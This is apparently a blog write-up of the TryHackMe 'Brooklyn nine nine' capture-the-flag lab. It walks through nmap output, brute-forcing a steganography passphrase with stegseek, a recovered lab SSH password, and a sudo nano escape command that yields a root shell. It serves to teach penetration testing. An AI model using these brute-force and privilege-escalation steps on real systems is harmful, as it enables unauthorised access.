


Hello everyone,

Today we are going to solve Brooklyn nine nine room from tryhackme. we will learn about stegseek to brute force stego password and privilege escalation with nano


<!--truncate-->

## Nmap results:

```c
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.206
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Gobuster results

--> i got nothing in gobuster :/

---

## FTP

--> Got this on ftp

```bash
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

---

## Port 80

--> I got this page on port 80



--> I got this comment in source code :



--> SO let's do stegno on background image .

But we don't have passphrase so we have to brute force it !

==> So i done that with `stegoseek` and found the passphrase as `admin` and found one file which contains the password of `holt`


`holt:fluffydog12@ninenine`

--> And i got the ssh shell !

---

## Privesc

--> when i done `sudo -l` i found that we can run `/bin/nano` as root so i found one command on gtfobins

```bash
nano
^R^X
reset; sh 1>&0 2>&0
```

--> And we got the root shell !


---
